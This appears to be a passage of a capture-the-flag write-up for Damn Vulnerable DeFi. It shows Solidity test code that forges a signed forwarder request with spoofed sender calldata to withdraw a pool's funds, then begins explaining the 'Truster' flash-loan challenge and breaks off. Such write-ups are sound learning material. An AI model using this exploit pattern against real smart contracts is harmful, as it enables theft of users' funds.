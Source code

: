   ```solidity
    WithdrawCallData = abi.encodePacked(WithdrawCallData, deployerBytes);

    bytes[] memory dataArray2 = new bytes[](1);
    dataArray2[0] = WithdrawCallData;

    bytes memory MulticallWithdrawCallData = abi.encodeWithSignature(
            "multicall(bytes[])",
            dataArray2
    );    
  
    BasicForwarder.Request memory request = BasicForwarder.Request({
            from: player,
            target: address(pool),
            value: 0,
            gas: 30000000,
            nonce: forwarder.nonces(player),
            data: MulticallWithdrawCallData,
            deadline: block.timestamp + 10 hours
        });
    bytes32 msgHash = forwarder.getDataHash(request);
    (uint8 v, bytes32 r, bytes32 s) = vm.sign(playerPk, keccak256(abi.encodePacked("\x19\x01",  forwarder.domainSeparator(), msgHash)));
    bytes memory signature = abi.encodePacked(r, s, v);
    assertEq(signature.length, 65);        
    forwarder.execute(request, signature);        
}
```
</details>

---
### Truster

#### Task: 

More and more lending pools are offering flashloans. In this case, a new pool has launched that is offering flashloans of DVT tokens for free.

The pool holds 1 million DVT tokens. You have nothing.

To pass this challenge, rescue all funds in the pool executing a single transaction. Deposit the funds into the designated recovery account.

#### Solution Explanation:

The pool allows us to request a flash loan via the function:

``` solidity
function flashLoan(uint256 amount, address borrower, address target, bytes calldata data)
    external
    nonReentrant
    returns (bool)
```
